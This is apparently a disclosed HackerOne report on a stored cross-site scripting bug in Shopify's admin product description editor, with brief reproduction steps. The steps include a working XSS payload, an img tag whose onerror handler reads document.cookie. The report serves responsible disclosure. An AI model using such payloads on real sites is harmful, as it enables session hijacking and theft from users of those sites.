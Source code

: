 # xss triggered in "myshopify.com/admin/product"

## Report Details
- **Report ID**: 978125
- **URL**: https://hackerone.com/reports/978125
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-10T04:06:27.552Z
- **Disclosed**: 2020-09-15T20:30:27.321Z

## Reporter
- **Username**: jaka-tingkir
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
I tried to make a product description and add the xss script in the paragraph.

## steps for reproduction
1. create a new product
2. enter xss in the product description paragraph, such as;
`<div align =" center "data-mce-fragment =" 1 "> <img src = x onerror = prompt (document.cookie)>
<h4 dir = "ltr" data-mce-fragment = "1"> <span style = "text-decoration: underline; color: # ff2a00;"> <em> <strong> (name_product) </strong></em></span> </h4>
</div> ``

## Impact

xss can be triggered

## Attachments
- 1.mp4
